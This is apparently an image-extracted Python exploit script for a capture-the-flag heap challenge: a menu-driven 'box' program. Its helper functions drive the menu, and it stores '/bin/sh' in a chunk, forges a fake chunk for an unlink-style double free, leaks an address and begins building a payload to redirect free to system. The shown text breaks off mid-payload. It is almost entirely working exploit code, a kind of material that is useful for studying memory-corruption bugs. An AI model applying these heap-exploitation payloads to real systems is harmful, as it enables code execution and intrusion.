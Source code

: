 ```Python
def get_box(which_box, iSize):
#pre: in ops input, post: next ops input
	global sh
	sh.send("1")#get a box
	sh.recvuntil("5) huge\n> ")
	sh.send(str(which_box))
	sh.recvuntil("Input the size you want to get:\n> ")
	sh.send(str(iSize))
	sh.recvuntil("6) exit\n> ")

def free_box(which_box):
#pre: in ops input, post: next ops input
	global sh
	sh.send("2")#destroy a box
	sh.recvuntil("5) huge\n> ")
	sh.send(str(which_box))
	print sh.recvuntil("6) exit\n> ")

def leave_msg(which_box, msg):
	sh.send("3")#leave msg in a box
	sh.recvuntil("5) huge\n> ")
	#print which_box
	sh.send(str(which_box))
	sh.send(msg + '\n')
	sh.recvuntil("6) exit\n> ")

def show_msg(which_box):
	sh.send("4")#show msg in the box
	sh.recvuntil("5) huge\n> ")
	sh.send(str(which_box))
	ret = sh.recvuntil("6) exit\n> ")
	endIdx = ret.find("You have 6 operation") - 1
	return ret[0:endIdx]

seed_to_p_addr = -40
displ_to_free = -0x108
free_off = 0x00000000000844f0
system_off = 0x0000000000045390

six_ops()
seed_addr = get_base_addr()

get_box(1, 0x20)
leave_msg(1, "/bin/sh\x00")

get_box(2, 0x100)
get_box(3, 0x110)
free_box(2)
free_box(3)
get_box(4, 0x220)

p_addr = seed_addr + seed_to_p_addr
payload = p64(0)+p64(0x101)+p64(p_addr-0x18)+p64(p_addr-0x10)+'A'*(0x100-0x20)+p64(0x100)+p64(0x220-0x100)
leave_msg(4, payload)

free_box(3)#double free
print "after double free, now box 4 pointer has changed and point to p_addr-0x18(box 1)"

bin_sh_addr = show_msg(4)

payload_leak = bin_sh_addr + '\x00\x00' + p64(p_addr+ displ_to_free) + bin_sh_addr + '\x00\x00' #+ bin_sh_addr + '\x00\x00'#p64(p_addr-0x18+displ_to_free+0x10)
```